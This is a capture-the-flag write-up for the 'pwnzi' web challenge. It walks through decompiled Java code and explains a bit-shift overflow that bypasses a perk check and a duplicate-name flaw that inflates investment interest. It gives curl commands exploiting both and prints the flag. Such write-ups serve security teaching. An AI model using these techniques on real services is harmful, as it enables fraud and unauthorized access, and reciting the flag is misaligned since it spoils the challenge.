 #### Challenge:

Do you want to make $1500 in an hour at the comfort of your home? Come join my online network! I am recruiting bright and ambitious people just like you!

https://pwnzi.ctf.spamandhex.com/

---

#### Solution:

- in web page source `jar` link of app is hidden in comment `<!-- https://pwnzi.ctf.spamandhex.com/pwnzi.jar -->`
- to get `FLAG` perk we need to get past these checks:
  - `perk == hu.spamandhex.pwnzi.Perks.FLAG`
  - `this.calculateExpectedInterest(user) < this.requiredInterestForPerk(perk)`

```java
    @PostMapping({"/claim-perk"})
    @Transactional
    public ResponseEntity<String> claimPerk(@RequestParam("perk") final int perk, final HttpSession session) {
        if (perk < 0) {
            throw new PwnziException("value error");
        }
        final User user = this.currentUser(session);
        if (user.hasPerk(perk)) {
            throw new PwnziException("perk already credited");
        }
        if (perk == hu.spamandhex.pwnzi.Perks.FLAG) {
            throw new PwnziException("sry, you have to work a bit harder for the flag");
        }
        if (this.calculateExpectedInterest(user) < this.requiredInterestForPerk(perk)) {
            throw new PwnziException("need more expected interest for this perk");
        }
        user.addPerk(perk);
        return (ResponseEntity<String>) ResponseEntity.ok((Object) "perk credited");
    }
```

- to get rid of the first check we could use overflow as `(short)(1 << 14)` is the same as `(short)(1 << 46)`

```java
    public boolean hasPerk(final int perk) {
        return (this.perks & 1 << perk) != 0x0;
    }
    
    public void addPerk(final int perk) {
        this.perks |= (short)(1 << perk);
    }
```

- second check cannot be avoided so we need to earn `4600000` of interests
  - `calculateExpectedInterest` sub-investments have higher value that root investments...
    ```java
        private double calculateExpectedInterest(final Investment investment) {
            final double subInterests = this.stream((Collection<Object>) investment.getChildren()).mapToDouble((ToDoubleFunction<? super Object>) this::calculateExpectedInterest).sum();
            return (investment.getDeposit() + subInterests) * this.config.getInterestRate();
        }
    ```
  - `makeInvestment` doesn't check if the investment with provided name already exists, that can be used to register multiple `child-investments` for the cost of only one investment
    ```java
        @DeleteMapping({"/myinvestments/{name}"})
        @Transactional
        public ResponseEntity<String> deleteInvestment(@PathVariable("name") final String name, final HttpSession session) {
            final User user = this.currentUser(session);
            final Investment investmentToDelete = this.investments.findByOwnerAndName(user, name).orElse(null);
            if (investmentToDelete == null) {
                throw new NotFoundException();
            }
            user.getInvestments().removeIf(i -> i == investmentToDelete);
            for (final Investment investment : this.investments.findByOwner(user)) {
                investment.getChildren().removeIf(i -> i == investmentToDelete);
            }
            user.setBalance(user.getBalance() + investmentToDelete.getDeposit());
            this.investments.delete((Object) investmentToDelete);
            return (ResponseEntity<String>) ResponseEntity.ok((Object) "ok");
        }

        @PostMapping({"/myinvestments"})
        @Transactional
        public ResponseEntity<String> makeInvestment(@RequestBody final MakeInvestmentRq rq, final HttpSession session) {
            String name = rq.getName();
            if (name == null) {
                name = UUID.randomUUID().toString().substring(0, 8);
            }
            final int deposit = Optional.ofNullable(rq.getDeposit()).orElse(this.config.getMinDeposit());
            if (deposit < this.config.getMinDeposit()) {
                throw new PwnziException(invokedynamic(makeConcatWithConstants:(I) Ljava / lang / String;,
                this.config.getMinDeposit()));
            }
            final User user = this.currentUser(session);
            if (user.getBalance() < deposit) {
                throw new PwnziException("not enough cash");
            }
            final Investment parent = this.investments.findByOwnerAndName(user, rq.getParentName()).orElse(null);
            final Investment newInvestment = new Investment().setOwner(user).setName(name).setDeposit(deposit);
            user.setBalance(user.getBalance() - deposit);
            this.investments.save((Object) newInvestment);
            if (parent != null) {
                parent.getChildren().add(newInvestment);
            } else {
                user.getInvestments().add(newInvestment);
            }
            return (ResponseEntity<String>) ResponseEntity.ok((Object) "ok");
        }
    ```

- combining reuse of investment names and multiple `child-investments` we can earn more than `46000000`
![investments.png](./investments.png ":ignore")

```bash
COOKIE='Cookie: SESSION=MmJkNTk5ZjktOTIwMy00NGEzLThlZjgtNjAyM2E2Mzc2NzM3'
# Invest money
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"1","deposit":100000}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"1","deposit":100000}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"1","deposit":100000}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"2","deposit":100000,"parentName":"1"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"2","deposit":100000,"parentName":"1"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"3","deposit":100000,"parentName":"2"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"3","deposit":100000,"parentName":"2"}'
curl 'https://pwnzi.ctf.spamandhex.com/myinvestments' -H $COOKIE --data-binary '{"name":"4","deposit":100000,"parentName":"3"}'
# Earn perk 14 via overflow
curl -X POST 'https://pwnzi.ctf.spamandhex.com/claim-perk?perk=46' -H $COOKIE -H 'Origin: https://pwnzi.ctf.spamandhex.com'
curl 'https://pwnzi.ctf.spamandhex.com/flag1' -H $COOKIE -H 'Referer: https://pwnzi.ctf.spamandhex.com/profile.html'
```

---

<details><summary>FLAG:</summary>

```
SaF{no_obfuscation_is_like_giving_sauce}
```

</details>
<br/>

